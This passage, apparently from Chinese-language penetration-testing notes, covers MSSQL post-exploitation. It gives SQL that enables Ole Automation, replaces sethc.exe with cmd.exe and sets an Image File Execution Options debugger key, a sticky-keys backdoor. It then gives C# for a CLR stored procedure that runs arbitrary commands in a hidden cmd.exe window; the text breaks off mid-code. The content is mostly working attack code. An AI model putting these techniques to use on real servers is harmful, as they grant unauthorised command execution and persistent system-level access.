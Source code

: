 ```sql
#sp_oacreate复制文件
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\cmd.exe' ,'c:\windows\system32\sethc.exe';
exec xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.EXE','Debugger','REG_SZ','c:\windows\system32\cmd.exe';
```
## CLR执行命令
SQLServer 2005以后支持调用CLR(公告语言运行时)的存储过程,即支持在sqlserver中运行.net代码.
### 创建sql文件
勾选创建sql文件,选3.5Net 兼容性更好
![CLR1.png](https://cdn.nlark.com/yuque/0/2                                                                                  021/png/12610959/1628249622336-34f54dea-5aae-4584-a80c-eeff2f1d3f01.png#clientId=ua0a461ef-7c4c-4&from=drop&id=u8a58121a&margin=%5Bobject%20Object%5D&name=CLR1.png&originHeight=561&originWidth=1027&originalType=binary&ratio=1&size=19411&status=done&style=none&taskId=u1c032984-9062-480c-a90b-156643f0370)
![CLR2.png](https://cdn.nlark.com/yuque/0/2021/png/12610959/1628249599733-28ca397f-9873-4afe-8c0d-2f4171e28f6f.png#clientId=ua0a461ef-7c4c-4&from=drop&id=u85da9149&margin=%5Bobject%20Object%5D&name=CLR2.png&originHeight=752&originWidth=677&originalType=binary&ratio=1&size=17434&status=done&style=none&taskId=uf31ac0c7-d7e7-492f-8589-212abb76628)
### C#代码
```c
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void Runexec (string cmd)
    {
        // 在此处放置代码
        SqlContext.Pipe.Send("Running command");
        SqlContext.Pipe.Send(Runcommand("cmd.exe", " /c " + cmd));
    }
    public static string Runcommand(string bin,string command)
    {
        //启动一个进程
        var process = new Process();
        process.StartInfo.FileName = bin;
        if (!string.IsNullOrEmpty(command))
        {
            //进程名称
            process.StartInfo.Arguments = command;
        }
        //设置进程属性
        process.StartInfo.CreateNoWindow = true;//无窗口
        process.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
        process.StartInfo.UseShellExecute = false;//通过将此属性设置为， false 可以重定向输入、输出和错误流
        process.StartInfo.RedirectStandardError = true;
        process.StartInfo.RedirectStandardOutput = true;
        var stdOutput = new StringBuilder();
        process.OutputDataReceived += (sender, args) => stdOutput.AppendLine(args.Data);
        string stdError = null;
        try
        {
            process.Start();
            process.BeginOutputReadLine();
            stdError = process.StandardError.ReadToEnd();
```